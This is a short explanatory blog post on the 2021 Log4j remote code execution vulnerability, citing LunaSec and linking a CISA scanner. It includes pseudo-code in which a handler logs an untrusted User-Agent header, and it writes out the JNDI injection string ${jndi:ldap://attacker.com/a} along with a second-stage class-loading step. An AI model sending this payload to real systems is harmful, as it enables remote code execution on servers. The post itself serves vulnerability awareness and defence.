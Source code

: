 ```yaml
---
layout: post
title:  "Log4J Remote Code Execution"
date:   2021-12-10 19:56:00 +0800
---
```


# [Reference](https://www.lunasec.io/docs/blog/log4j-zero-day/)

# Affected Apache log4j Version
2.0 <= Apache log4j <= 2.14.1

{% highlight Java %}
import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = Logger.getLogger(log4jExample.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's User Agent and logs it back.
   * This is basically pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    string userAgent = he.getRequestHeader("user-agent");
    
    // This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
    // The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}
    log.info("Request User Agent:" + userAgent);

    String response = "<h1>Hello There, " + userAgent + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
{% endhighlight %}

# Exploit Steps​
* Data from the User gets sent to the server (via any protocol),
* The server logs the data in the request, containing the malicious payload: ${jndi:ldap://attacker.com/a} (where attacker.com is an attacker controlled server),
* The log4j vulnerability is triggered by this payload and the server makes a request to attacker.com via "Java Naming and Directory Interface" (JNDI),
* This response contains a path to a remote Java class file (ex. http://second-stage.attacker.com/Exploit.class) which is injected into the server process,
* This injected payload triggers a second stage, and allows an attacker to execute arbitrary code.

# Scan tool
# [Log4j-scanner](https://github.com/cisagov/log4j-scanner)